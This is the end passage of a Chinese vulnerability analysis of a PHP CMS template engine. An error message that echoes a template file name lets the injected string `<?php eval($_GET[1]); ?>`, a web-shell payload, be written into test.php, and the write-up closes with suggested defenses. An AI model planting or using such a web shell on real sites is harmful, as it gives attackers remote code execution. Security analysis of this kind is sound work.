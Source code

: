 跳出函数，因为我们在 `_compile_resource` 函数内 `echo` 输出到了缓冲区。所以在下面获取的时候缓冲区内的数据就是：

`Template file (/templates/pc/pages/&lt;?php eval($_GET[1]); ?&gt;) is not exists!`

```
ob_start();
if ( 
    $this -&gt; _is_compiled( $template_file, $_template_compile_path ) 
|| 
    $this -&gt; _compile_resource( $template_file, $_template_compile_path  // 如果文件不存在，输出一句带有文件名的话，存入缓冲区
)) `{`
    include( $_template_compile_path . $this -&gt; _compile_prefix );
`}` 
$_template_results = ob_get_contents(); // 获取缓冲区的值，接下来会返回
```

此时这个字符串就被我们纯洁的 `saxue_writefile`，写进纯洁的 `test.php` 里了。



## 总结

这个漏洞其实还是很简单的，防御的话，我觉得可以在 `fetch` 函数中判断是否有一些特殊字符，或者干脆在找不到模板的时候干脆不输出文件名。其实我觉得应该还可以更好的防御方法，但是由于水平有限，希望表哥们如果有更好的方法可以一起探讨交流。
